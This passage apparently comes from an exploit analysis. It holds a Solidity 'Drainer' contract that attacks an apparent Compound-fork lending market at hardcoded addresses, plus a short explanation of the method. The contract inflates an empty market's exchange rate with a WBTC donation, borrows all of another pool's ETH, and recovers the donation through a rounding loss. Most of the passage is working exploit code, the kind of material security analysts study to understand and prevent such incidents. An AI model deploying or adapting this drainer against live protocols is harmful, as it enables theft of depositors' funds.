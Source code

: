 ``` solidity

contract Drainer is Test {
    ICErc20 WBTC = ICErc20(0x68f180fcCe6836688e9084f035309E29Bf0A2095);
    ICErc20 hWBTC = ICErc20(0x35594E4992DFefcB0C20EC487d7af22a30bDec60);
    IComptroller comptroller = IComptroller(0x5a5755E1916F547D04eF43176d4cbe0de4503d5d);
    ICEther hEther;

    constructor(ICEther token) payable {
        hEther = token;
        WBTC.approve(address(hWBTC), type(uint256).max);
        hWBTC.mint(1 * 1e8);
        // hWBTC.redeem(hWBTC.totalSupply() - 1);
        hWBTC.redeem(hWBTC.totalSupply() - 2);  // get 2 hWBTC, the totalSupply is 2
    
        uint256 donationAmount = WBTC.balanceOf(address(this));
        WBTC.transfer(address(hWBTC), donationAmount);
        console.log("donationAmount:", donationAmount);

        address[] memory cTokens = new address[](1);
        cTokens[0] = address(hWBTC);
        comptroller.enterMarkets(cTokens);

        uint256 cWBTCAmountIn = 1;
        uint256 exchangeRate = hWBTC.exchangeRateStored();
        uint256 precisionLossMaxAmount = (cWBTCAmountIn + 1) * exchangeRate / 1e18;
        console.log("precisionLossMaxAmount:", precisionLossMaxAmount);

        uint256 borrowAmount = hEther.getCash();
        hEther.borrow(borrowAmount); // using cWBTC as collateral to lend ETH
        payable(address(msg.sender)).transfer(address(this).balance);

        uint256 redeemAmount;
        if (precisionLossMaxAmount > donationAmount) {
            redeemAmount = donationAmount;
        } else {
            redeemAmount = precisionLossMaxAmount;
        }
        console.log("redeemAmount:", redeemAmount);
        hWBTC.redeemUnderlying(redeemAmount);  // due to precision loss, only 1hWBTC was used to redeem all WBTCs
        
        WBTC.transfer(msg.sender, WBTC.balanceOf(address(this)));
    }
}
```

It should be noted that since hWBTC is an empty market and does not hold much WBTC itself, utilizing precision loss alone cannot directly profit from the hWBTC contract. Therefore, a different approach is needed. The attacker can first `mint` a small amount of hWBTC, then transfer a large amount of WBTC to the hWBTC contract. At this point, the exchangeRate is extremely high, so the hWBTC can be used as collateral to borrow tokens from other pools, thus emptying them. Later, due to precision loss, the attacker can use `redeem` to withdraw the previously transferred WBTC without using all the hWBTC, while bypassing the liquidity check on the account during `redeem`. Namely, the portion of precision loss is used as collateral to borrow tokens from other pools, thus profiting.
